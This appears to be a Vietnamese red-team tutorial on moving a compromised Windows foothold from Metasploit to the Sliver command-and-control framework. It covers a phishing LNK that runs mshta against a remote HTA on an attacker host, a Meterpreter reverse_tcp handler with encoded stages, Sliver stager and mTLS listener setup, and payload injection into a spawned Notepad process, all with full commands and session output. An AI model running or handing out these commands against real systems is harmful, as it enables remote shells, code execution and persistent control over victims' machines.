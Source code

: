  **⚠️ Important:** You must have MinGW installed on your Sliver server to get some staged (e.g., Windows DLLs) payloads to work.
 
Vì kích thước của implant lớn (khoảng >= 15 MB), nên yêu cầu operator sử dụng [stagers](https://sliver.sh/docs?name=Stagers) để vận chuyển & thực thi implant trên máy nạn nhân.

Theo tài liệu, MSF hỗ trợ giao thức C2 là TCP và HTTP(S). Thông tin chi tiết xem thêm ở phần tham khảo.

## Chuyển từ Metasploit sang Sliver

Scenario: Attacker đã có foothold bằng phương pháp phishing email với tệp đính kèm chứa a Windows Shortcut file (LNK) độc hại. LNK này thực thi tệp HTA được lưu trữ trên máy kẻ tấn công, mô tả như sau:

```
C:\Windows\System32\mshta.exe https://IP_Attacker/Basic_Microsoft_HTML_Application_v1.hta
```

Attacker sử dụng metasploit làm C2 truy cập ban đầu

```bash
┌──(kali㉿kali)-[~]
└─$ msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 10.10.108.30;set LPORT 443;set EnableStageEncoding true; set StageEncoder x64/xor ;set ExitOnSession false;exploit -jz"

[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
LHOST => 10.10.108.30
LPORT => 443
EnableStageEncoding => true
StageEncoder => x64/xor
ExitOnSession => false
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.108.30:443 
msf6 exploit(multi/handler) > [*] Encoded stage with x64/xor
[*] Sending encoded stage (201839 bytes) to 10.10.108.22
[*] Meterpreter session 1 opened (10.10.108.30:443 -> 10.10.108.22:50388) at 2024-08-22 03:30:05 -0400

msf6 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  1         meterpreter x64/windows  ATTT-PC-0003\Admin @ ATTT-PC-0003  10.10.108.30:443 -> 10.10.108.22:50388 (10.10.108.22)
```

#### Sliver preparation

![[Pasted image 20240822175232.png]]

Cần tạo 2 thứ là `profiles` và `stage-listener` , câu lệnh như sau:

```bash
sliver > profiles new beacon --mtls 10.10.108.30:8081 --format shellcode --seconds 5 --jitter 3 primary-payload
sliver > stage-listener -u tcp://10.10.108.30:8080 -p primary-payload --prepend-size
sliver > mtls -L 10.10.108.30 -l 8081
```

Kết quả câu lệnh

```bash
sliver > profiles new beacon --mtls 10.10.108.30:8081 --format shellcode --seconds 5 --jitter 3 primary-payload 

[*] Saved new implant profile (beacon) primary-payload

sliver > stage-listener -u tcp://10.10.108.30:8080 -p primary-payload --prepend-size

[*] Job 2 (tcp) started

sliver > mtls -L 10.10.108.30 -l 8081

[*] Starting mTLS listener ...
[*] Successfully started job #3

sliver > jobs

 ID   Name   Protocol   Port   Domains 
==== ====== ========== ====== =========          
 2    TCP    tcp        8080           
 3    mtls   tcp        8081 
```

#### Thực hiện chuyển
Tại Metasploit, sử dụng module local/payload_inject, đóng vai trò là stagers

```bash
msf6 exploit(multi/handler) > use windows/local/payload_inject
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/payload_inject) > set payload windows/x64/custom/reverse_tcp
payload => windows/x64/custom/reverse_tcp
msf6 exploit(windows/local/payload_inject) > set session 1
session => 1
msf6 exploit(windows/local/payload_inject) > set LHOST 10.10.108.30
LHOST => 10.10.108.30
msf6 exploit(windows/local/payload_inject) > set LPORT 8080
LPORT => 8080
msf6 exploit(windows/local/payload_inject) > run

[*] Running module against ATTT-PC-0003
[*] Spawned Notepad process 19188
[*] Injecting payload into 19188
[*] Preparing 'windows/x64/custom/reverse_tcp' for PID 19188
[*] Exploit completed, but no session was created.
```

![[Pasted image 20240822150928.png]]

Chuyển sang terminal Sliver, implant đã được thực thi và ta đã có thể sử dụng `beacon`

![[Pasted image 20240822175736.png]]

#### Hình ảnh liên quan

![[Pasted image 20240822180330.png]]

![[Pasted image 20240822180423.png]]

Reference:
- https://sliver.sh/docs?name=Stagers
- https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/local/payload_inject
- https://viblo.asia/p/cach-osepadvanced-evasion-techniques-and-breaching-defenses-lam-kho-toi-a-little-bit-EbNVQ5jWVvR

## Chuyển từ Sliver sang Metasploit

msf-inject -L 192.168.13.X -l 443 -m meterpreter/reverse_tcp




.